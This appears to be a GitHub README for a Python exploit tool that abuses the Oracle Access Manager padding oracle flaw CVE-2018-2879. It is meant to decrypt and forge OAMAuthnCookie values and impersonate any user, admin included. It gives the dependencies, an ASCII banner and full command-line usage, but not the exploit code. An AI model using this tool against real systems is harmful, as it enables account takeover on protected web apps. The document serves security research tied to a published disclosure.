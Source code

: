 # Oracle Access Manager (OAM) Authentication Bypass Exploit

### Introduction
Exploiting Oracle Access Manager (OAM) padding oracle vulnerability (CVE-2018-2879) to perform authentication bypass and login to any web app protected by OAM using valid username. 
<br /><br />This exploit is based on OAM padding oracle vulnerability discovered by SEC Consult and was tested on OAM v12.2.1.3.0

```
https://www.sec-consult.com/en/blog/2018/05/oracle-access-managers-identity-crisis/
```

### Dependencies

```
pip install urllib3 paddingoracle requests
```
### Syntax
```
# python oam-auth-bypass.py -h
                                                                                                                                                                                                                                                                                 
 $$$$$$\   $$$$$$\  $$\      $$\        $$$$$$\              $$\     $$\                 $$$$$$$\
$$  __$$\ $$  __$$\ $$$\    $$$ |      $$  __$$\             $$ |    $$ |                $$  __$$\
$$ /  $$ |$$ /  $$ |$$$$\  $$$$ |      $$ /  $$ |$$\   $$\ $$$$$$\   $$$$$$$\            $$ |  $$ |$$\   $$\  $$$$$$\   $$$$$$\   $$$$$$$\  $$$$$$$\
$$ |  $$ |$$$$$$$$ |$$\$$\$$ $$ |      $$$$$$$$ |$$ |  $$ |\_$$  _|  $$  __$$\           $$$$$$$\ |$$ |  $$ |$$  __$$\  \____$$\ $$  _____|$$  _____|
$$ |  $$ |$$  __$$ |$$ \$$$  $$ |      $$  __$$ |$$ |  $$ |  $$ |    $$ |  $$ |          $$  __$$\ $$ |  $$ |$$ /  $$ | $$$$$$$ |\$$$$$$\  \$$$$$$\
$$ |  $$ |$$ |  $$ |$$ |\$  /$$ |      $$ |  $$ |$$ |  $$ |  $$ |$$\ $$ |  $$ |          $$ |  $$ |$$ |  $$ |$$ |  $$ |$$  __$$ | \____$$\  \____$$\
 $$$$$$  |$$ |  $$ |$$ | \_/ $$ |      $$ |  $$ |\$$$$$$  |  \$$$$  |$$ |  $$ |$$\       $$$$$$$  |\$$$$$$$ |$$$$$$$  |\$$$$$$$ |$$$$$$$  |$$$$$$$  |
 \______/ \__|  \__|\__|     \__|      \__|  \__| \______/    \____/ \__|  \__|\__|      \_______/  \____$$ |$$  ____/  \_______|\_______/ \_______/
                                                                                                   $$\   $$ |$$ |
                                                                                                   \$$$$$$  |$$ |
                                                                                                    \______/ \__|


                                                                                                OAM Authentication Bypass Exploit
                                                                                                            Developed by: Ayman ElSherif


usage: oam-auth-bypass.py [-h] [-a <agentid>] [-p <prefix>] [-e <Clear-text>]
                          [-d <Cipher-text>] [-i <username>] [-z <authid>]
                          [-c <cookie>] [-v]
                          url

positional arguments:
  url                   URL of a resource protected by OAM (Oracle WebGate)

optional arguments:
  -h, --help            show this help message and exit
  -a <agentid>, --agentid <agentid>
                        Agent ID for Oracle Web Gateway to use
  -p <prefix>, --prefix <prefix>
                        Prefix: a valid base64 encoded encquery value with
                        last block starts with a space character
  -e <Clear-text>, --encrypt <Clear-text>
                        Clear-text value to encrypt
  -d <Cipher-text>, --decrypt <Cipher-text>
                        Cipher-text value to decrypt
  -i <username>, --impersonate <username>
                        Username to create a login cookie for
  -z <authid>, --authid <authid>
                        Authorization ID
  -c <cookie>, --cookie <cookie>
                        A valid OAM authentication cookie
  -v, --verbose         Verbose output



```

### Decrypting OAMAuthnCookie cookie
![Alt text](example/01-decrypt.png?raw=true)
<br />
### Generating OAMAuthnCookie for admin user
![Alt text](example/02-impersonate.png?raw=true)
<br />
### Encrypting new OAMAuthnCookie cookie
![Alt text](example/03-encrypt.png?raw=true)
<br />
